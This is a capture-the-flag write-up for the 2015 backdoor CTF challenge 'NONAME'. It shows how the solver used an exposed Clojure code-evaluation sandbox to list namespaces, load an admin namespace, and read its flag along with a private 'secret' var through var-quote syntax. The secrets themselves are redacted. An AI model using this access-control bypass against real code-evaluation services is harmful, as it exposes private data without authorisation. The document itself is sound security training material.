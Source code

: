 # backdoor CTF 2015: [NONAME](https://backdoor.sdslabs.co/challenges/NONAME)

**Category:** Exploit
**Points:** 200
**Author:** [Amanpreet Singh](https://backdoor.sdslabs.co/users/apsdehal)
**Difficulty:**
**Solves:** 25
**Description:** 

* <https://backdoor.sdslabs.co/challenges/NONAME>

> Intrestingly enough, even though it was not expected, Chintu found a cool website to play with, though he can't get the flag. Can you? Visit [this](https://agile-garden-1672.herokuapp.com/). Submit the SHA-256 hash of the flag obtained.

## Write-up

We are given a Clojure sandbox and have to find the flag and secret of an user named admin.

Entering valid clojure code, we can execute several functions, e.g. printing the version:

```clojure
Give me some code:
> (clojure-version)
"1.4.0"
```

After learning about clojure, we first print the complete [namespace](http://clojure.org/namespaces) to find any suspicious imported functions or namespaces using the [all-ns](http://clojure.github.io/clojure/clojure.core-api.html#clojure.core/all-ns) function:

```clojure
> (all-ns)
[..see all-ns file..]
```

We see a namespace named `noname.people.admin`, so we try to find any variables within this namespace after importing this namespace:

```clojure
> (require '[noname.people.admin :as adm])
nil
> (adm/flag)
Ma flag is : [REDACTED]
> (adm/secret)
java.lang.IllegalStateException: var: #'noname.people.admin/secret is not public
```

Mhh, we can access the variable flag, but can't access secret. Secret must be private. Fortunately, there is a way to read private variables described [here](http://christophermaier.name/blog/2011/04/30/not-so-private-clojure-functions):

```clojure
> (#'adm/secret)
"Ma secret is: [REDACTED]"
```

We concat these two strings and make a sha256 hash out of them and get the flag!

## Other write-ups and resources

* [Indonesian](https://docs.google.com/document/d/1O6TLRT0Vvyd5YT_GBlHvrCuhuGM_E_CJXXitNsdNbaw/edit)
